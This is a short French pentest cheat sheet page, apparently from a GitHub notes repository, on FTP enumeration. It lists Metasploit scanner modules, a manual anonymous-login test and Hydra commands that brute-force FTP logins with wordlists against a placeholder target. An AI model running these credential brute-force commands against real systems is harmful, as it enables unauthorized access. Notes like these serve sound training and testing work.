 # 📂 Énumération FTP

[🏠 Accueil](../README.md) | [🌐 HTTP](http-web.md) | [📁 SMB](smb-samba.md) | [🔐 SSH](ssh.md) | [🗄️ MySQL](mysql.md) | [📧 SMTP](smtp.md) | [📤 WebDAV](webdav.md)

## Port par défaut : 21

## Metasploit Modules
```bash
use auxiliary/scanner/ftp/ftp_version
use auxiliary/scanner/ftp/anonymous
use auxiliary/scanner/ftp/ftp_login
    set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
    set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

## Connexion manuelle
```bash
ftp targetIP
# Tester anonymous:anonymous
```

## Hydra Bruteforce
```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetIP ftp
hydra -l root -P /root/Desktop/wordlists/unix_passwords.txt ftp://targetIP:5554
```